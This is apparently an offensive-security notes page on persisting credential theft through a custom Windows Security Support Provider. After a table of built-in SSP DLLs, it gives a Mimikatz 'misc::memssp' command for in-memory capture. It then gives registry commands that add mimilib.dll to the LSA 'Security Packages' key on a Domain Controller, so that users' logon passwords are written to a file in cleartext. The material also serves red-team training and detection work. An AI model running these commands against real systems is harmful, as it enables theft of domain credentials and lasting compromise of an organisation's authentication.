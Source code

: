 # Custom SSP

## Explanation

A Security Service Provider (SSP) is implemented via the Security Support Provider Interface (SSPI) which is part of the Windows Client Authentication Architecture.

The SSPI will dictate what protocols systems should use to authenticate between each other when communicating. The default protocol is Kerberos, however when not possible the following may also be utilized:

| SSP Protocol      | File Location                          |
|-------------------|----------------------------------------|
| Negotiate SSP     | `C:\Windows\System32\lsasrv.dll`       |
| Kerberos SSP      | `C:\Windows\System32\kerberos.dll`     |
| NTLM SSP          | `C:\Windows\System32\msv1_0.dll`       |
| Schannel SSP      | `C:\Windows\System32\Schannel.dll`     |
| Digest SSP        | `C:\Windows\System32\Wdigest.dll`      |
| CredSSP           | `C:\Windows\System32\credssp.dll`      |



### 1) Mimikatz (IN MEMORY. DOES NOT PERSIST AFTER REBOOT!)

    mimikatz "privilege::debug" "misc::memssp" "exit"

    C:\Windows\System32\kiwissp.log

### 2) Mimilib (PERSISTENT)

It is possible to inject a custom SSP into a target Domain Controller which can be used to intercept credentials and store them for later retrieval in plain text. Mimikatz comes with the ability to perform this interception with the mimilib.dll provided.

Copying the mimilib.dll file from Mimikatz into the SYSTEM32 folder and then adding the mimilib.dll file as a security package with the below command.

##### Create Key

    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f

##### Confirm changes

    reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

After completing and confirming changes, when a user next authenticates against the Domain Controller the credentials will be captured in cleartext in a file called kiwissp.txt inside SYSTEM32.

As these changes are made to the registry and a permanent file is dropping into SYSTEM32 this attack vector will persist after reboots.

